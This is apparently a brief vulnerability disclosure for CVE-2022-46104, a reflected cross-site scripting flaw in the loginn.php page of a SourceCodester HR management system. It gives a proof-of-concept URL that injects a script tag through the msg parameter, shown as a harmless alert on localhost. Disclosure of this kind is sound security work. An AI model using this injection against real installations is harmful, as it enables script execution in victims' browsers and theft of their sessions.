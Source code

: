 # CVE-2022-46104
https://www.sourcecodester.com/

XSS has been discovered on Human Resource Management System Project loginn.php page:

![image](https://user-images.githubusercontent.com/123009127/213255477-6fec00b1-2343-482a-8c8a-2068911e1317.png)


Execution payload:

http://localhost/hrm/loginn.php?msg=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E

![image](https://user-images.githubusercontent.com/123009127/213255813-54148d02-7dbd-4fa7-8fc3-e39dd866f143.png)


![image](https://user-images.githubusercontent.com/123009127/213256166-5552035a-840e-423c-9759-1833413338c5.png)
